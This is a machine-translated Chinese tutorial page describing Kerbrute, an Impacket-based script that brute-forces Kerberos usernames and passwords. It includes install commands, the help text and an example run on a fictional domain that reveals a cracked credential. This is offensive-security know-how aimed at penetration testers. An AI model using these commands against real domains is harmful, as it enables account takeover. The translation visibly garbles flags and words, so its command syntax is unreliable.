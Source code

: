 # Kerbrute:使用 Impacket 执行 Kerberos 强制的脚本

> 原文：<https://kalilinuxtutorials.com/kerbrute/>

[![](img//6d54f43e368f37797f56ca8f1426fec2.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjlXLa-3ZyCoEjHyNLSCu939G5Sd-y2iYNNkFX2ltjHPjNMSjH3LrSZVDDxrUi0cQMxlmrMhPUSbSYgev6Zr8LLc1kLIhdGRBEZgKtmxL8stJNqeKBwft8YuqSGxZQWCu489ui2VSVhSKRrMbKijbur1kxqOXgY8FKBXywTFzSUBXnvPzeZNyZv0Kal=s728)

是一个通过使用 Impacket 库执行 kerberos 强制的脚本。

当执行时，作为输入，它接收用户或用户列表以及密码或密码列表。然后 is 执行暴力攻击来列举:

*   有效的用户名/密码对
*   有效用户名
*   无需预认证的用户名

因此，该脚本会生成一个发现的有效凭据列表，并根据这些有效凭据生成 TGT。

## 安装

来自 pypi:

**pip3 安装 kerbrute**

来自回购:

**git 克隆 https://github.com/TarlogicSecurity/kerbrute
CD kerbrute
pip install-r requirements . txt**

## 使用

没有参数的帮助:

**root @ kali:~ # kerbrute
Impacket v 0 . 9 . 18-Copyright 2018 secure auth Corporation
用法:kerbrute . py[-h][-debug](-USER USER |-USERS)
[-PASSWORD PASSWORD |-PASSWORDS]-DOMAIN 域域
[-DC-IP][-THREADS THREADS]
[-output file output file][-no-save-ticket]
可选参数:
-h， –帮助显示此帮助消息并退出
-调试打开调试输出
-用户用户用户执行暴力
-用户用户文件每行包含用户
-密码密码执行暴力
-密码每行包含密码的密码文件
-域域域执行暴力
-域控制器的 dc-ip IP 地址
-线程线程数执行暴力的线程数。 default = 1
-output File output File
保存发现的用户的文件:密码
-no-save-ticket 不保存检索到的具有正确凭证的 TGTs
示例:
。/kerbrute . py-users users _ file . txt-passwords _ file . txt-domain contoso.com**

执行示例:

**root @ kali:~ # kerbrute-domain Jurassic . park-users users . txt-passwords . txt-output file Jurassic _ passwords . txt
Impacket v 0 . 9 . 18–版权所有 2018 secure auth Corporation
【*】stampirance =>triceratops:sh 4 rph 0 rns[*]在 triceratops . ccache
[*]Valid user =>velociraptor【非预认证】[***

[**Download**](https://github.com/TarlogicSecurity/kerbrute)